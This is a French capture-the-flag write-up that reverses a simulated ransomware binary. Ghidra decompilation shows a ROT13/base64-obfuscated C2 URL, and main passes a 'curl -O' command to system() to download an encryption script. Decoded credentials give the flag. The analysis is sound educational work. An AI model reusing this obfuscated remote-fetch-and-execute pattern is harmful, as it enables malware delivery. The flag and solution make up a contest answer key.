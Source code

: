 ﻿# Writeup :  What_If_CryptoLocker (reverse)
###### by Ak3la 
### CTF : Operation Kernel (2022) / Challenge reverse, 200 pts


L'objectif de ce challenge est de retrouver le flag au format : HACK{Utilisateur_Password}
Dans l'imaginaire du CTF, des pirates ont envoyées des documents sur un server pour les chiffer et il nous faut retrouver les identifiants. 
## Test du programme donné
Le fichier binaire du programme permettant de se connecter à ce server nous est donné.
Une fois telechargé, on l'execute pour voir ce qu'on peut en tirer :

    $ chmod +x crypto
    $ ./crypto
Nous obtenons :
  ```consol
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current`
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (6) Could not resolve host: qJqaL2L6Yl9jpTWmp3WlYaO1oay5pzS0pv5vL3Wyozq2LzRgrUWyLKW5YaAyY3Nl
Enter the key to encrypt files
```
Et en testant une clef au hasard, par exemple `ThisIsAKeyTest` : 
  ```consol
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current`
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (6) Could not resolve host: qJqaL2L6Yl9jpTWmp3WlYaO1oay5pzS0pv5vL3Wyozq2LzRgrUWyLKW5YaAyY3Nl
Enter the key to encrypt files
ThisIsAKeyTest



python: can't open file '/home/kali/Downloads/pzSjMJkwMl5woN==': [Errno 2] No such file or directory
python: can't open file '/home/kali/Downloads/pzSjMJkwMl5woN==': [Errno 2] No such file or directory
python: can't open file '/home/kali/Downloads/pzSjMJkwMl5woN==': [Errno 2] No such file or directory
python: can't open file '/home/kali/Downloads/pzSjMJkwMl5woN==': [Errno 2] No such file or directory
python: can't open file '/home/kali/Downloads/pzSjMJkwMl5woN==': [Errno 2] No such file or directory
```
La boucle infinie renvoyant l'erreur impose de kill l’exécution avec Ctrl+C. On conclue donc qu’exécuter le programme ne nous rapproche pas des identifiants cherchés, on passe donc au reverse !
## Reverse du programme
Pour passer du binaire à quelque chose de plus lisible, j'utilise Ghidra.

    $ ghidra
Une fois le projet initialisé avec le fichier "crypto", on analyse !
Personnellement, je souhaite toujours commencer l'étude du programme à reverse en affichant le binaire décompilé en pseudo C, les fonctions et les chaines de caractères présentes dans le fichier.

Observons la version décompilé du main (attention les yeux)
```c
undefined8 main(void)
{
	char *pcVar1;
  basic_string local_118 [32];
  basic_string<char,std::char_traits<char>,std::allocator<char>> local_f8 [32];
  basic_string<char,std::char_traits<char>,std::allocator<char>> local_d8 [46];
  allocator local_aa;
  allocator local_a9;
  basic_string local_a8 [32];
  basic_string<char,std::char_traits<char>,std::allocator<char>> local_88 [32];
  basic_string local_68 [32];
  basic_string<char,std::char_traits<char>,std::allocator<char>> local_48 [43];
  allocator local_1d;
  int local_1c;
  
  std::allocator<char>::allocator();
                    /* try { // try from 004042f2 to 004042f6 has its CatchHandler @ 004044aa */
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
  basic_string<std::allocator<char>>
            (local_d8,"qJqaL2L6Yl9jpTWmp3WlYaO1oay5pzS0pv5vL3Wyozq2LzRgrUWyLKW5YaAyY3Nl",&local_aa);
  std::allocator<char>::~allocator((allocator<char> *)&local_aa);
  std::allocator<char>::allocator();
                    /* try { // try from 0040432b to 0040432f has its CatchHandler @ 004044c7 */
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
  basic_string<std::allocator<char>>(local_f8,"pzSjMJkwMl5woN==",&local_a9);
  std::allocator<char>::~allocator((allocator<char> *)&local_a9);
                    /* try { // try from 00404349 to 00404374 has its CatchHandler @ 00404542 */
  getData((basic_string *)local_d8);
  getData((basic_string *)local_f8);
  std::operator+((char *)local_88,(basic_string *)"curl -O ");
                    /* try { // try from 0040438b to 0040438f has its CatchHandler @ 004044ef */
  std::operator+(local_a8,(char *)local_88);
                    /* try { // try from 004043ab to 004043af has its CatchHandler @ 004044db */
  std::operator+(local_118,local_a8);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)local_a8);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            (local_88);
  pcVar1 = (char *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
                   c_str();
                    /* try { // try from 004043dd to 004043f7 has its CatchHandler @ 0040452e */
  system(pcVar1);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string
            (local_68);
  std::allocator<char>::allocator();
                    /* try { // try from 00404414 to 00404418 has its CatchHandler @ 00404511 */
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
  basic_string<std::allocator<char>>(local_48,"/",&local_1d);
                    /* try { // try from 0040442e to 00404432 has its CatchHandler @ 00404500 */
  crypto((basic_string)0xb8,(basic_string *)local_d8,(basic_string)0x98);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            (local_48);
  std::allocator<char>::~allocator((allocator<char> *)&local_1d);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)local_68);
  pcVar1 = (char *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
                   c_str();
  local_1c = remove(pcVar1);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)local_118);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            (local_f8);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            (local_d8);
  return 0;
}
```
On voit que 2 chaines de caractères sont créées (variables `local_d8` et `local_f8`) puis que ces variables sont placées en argument de la fonction  `getData()`
```c
  getData((basic_string *)local_d8);
  getData((basic_string *)local_f8);
```
Observons donc cette fonction décompilée : 
```c
 /*getData(std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char>>&) */

void getData(basic_string *param_1)

{
  basic_string local_28 [32];
  
  rot(param_1,0xd);
  base64_decode(local_28);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)local_28);
  rot(param_1,0xd);
  return;
}
```
On voit qu'il s'agit d'un algorithme de déchiffrement. On prend une chaine de caractère, on exécute un ROT13 (0xd = 13), on déchiffre le résultat en base64, puis on réexécute un ROT13.

L'outil que j'utilise pour ce genre de chiffrement / déchiffrement successif est [CyberChef](https://gchq.github.io/CyberChef/).
On place les étapes de l'algorithme dans le bon sens, et de l'input 
`qJqaL2L6Yl9jpTWmp3WlYaO1oay5pzS0pv5vL3Wyozq2LzRgrUWyLKW5YaAyY3Nl`
On obtient :
`https://ccoffee.challenge.operation-kernel.fr/c2`

Ce lien est visible, l'algorithme  fonctionne, on teste avec les autres chaines de caractères du fichier binaire trouvées avec Ghidra :
`pzSjMJkwMl5woN==`
`nTMlMG1iLzpzL25zMzcvMKR9GaSkEJWaIzMTM3M5rHSvM1WuLzu0qD==` 

Input : `pzSjMJkwMl5woN==` 
Output : `encrypt.py` 

Input : `nTMlMG1iLzpzL25zMzcvMKR9GaSkEJWaIzMTM3M5rHSvM1WuLzu0qD==` 
Output : `user=bot&password=AddRotIsStillNotEnough` 

Nous avons donc le contenu d'une requête avec le Username et le Password donc nous avons besoin pour flag. Le flag est donc **HACK{bot_AddRotIsStillNotEnough}**



